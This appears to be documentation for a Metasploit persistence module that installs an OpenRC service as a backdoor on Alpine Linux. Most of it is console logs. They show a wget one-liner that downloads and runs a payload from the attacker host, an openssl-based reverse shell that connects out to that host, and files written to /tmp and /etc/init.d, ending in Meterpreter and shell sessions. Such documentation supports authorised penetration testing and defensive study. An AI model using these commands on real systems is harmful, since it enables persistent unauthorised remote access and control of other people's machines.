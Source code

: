 ## Vulnerable Application

This module will create a service on the box via OpenRC, and mark it for auto-restart.
We need enough access to write service files and potentially restart services.

Verified against alpine 3.21.2

## Verification Steps

1. Exploit a box and get a **root** session
2. `use exploit/linux/persistence/init_openrc `
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`

## Options

**SERVICE**

The name of the service to create.  If not chosen, a random one is created.

**PAYLOAD_NAME**

The name of the file to write with our shell if a non-cmd payload is used.  If not chosen, a random one is created.

## Scenarios

### Alpine Linux 3.21.2

Of note, the default install of Alpine doesn't have `curl`, or `bash`. The `OpenSSL` payload was confirmed working though

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO xK7yCqmS --no-check-certificate http://111.111.1.111:8181/l; chmod +x xK7yCqmS; ./xK7yCqmS& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:33954) at 2025-02-09 09:31:16 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/root) > getuid
Server username: root
(Meterpreter 1)(/root) > sysinfo
Computer     : alpine3.21.2
OS           :  (Linux 6.12.12-0-virt)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/root) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/init_openrc 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_openrc) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_openrc) > set payload payload/cmd/unix/reverse_openssl
payload => cmd/unix/reverse_openssl
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_openrc) > exploit
[+] sh -c '(sleep 4296|openssl s_client -quiet -connect 111.111.1.111:4444|while : ; do sh && break; done 2>&1|openssl s_client -quiet -connect 111.111.1.111:4444 >/dev/null 2>&1 &)'
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/init_openrc) > 
[*] Started reverse double SSL handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /tmp/ is writable and openrc based
[*] Writing backdoor to /tmp//rljkrbglMY
[*] Writing service: /etc/init.d/GpdAgZVBGWq
[*] Writing '/etc/init.d/GpdAgZVBGWq' (141 bytes) ...
[*] Enabling service
[+] Starting service
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/alpine3.21.2_20250209.3159/alpine3.21.2_20250209.3159.rc
[*] Command: echo duVbKHsRwQ5D05J7;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "duVbKHsRwQ5D05J7\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (111.111.1.111:4444 -> 222.222.2.222:43560) at 2025-02-09 09:32:07 -0500

```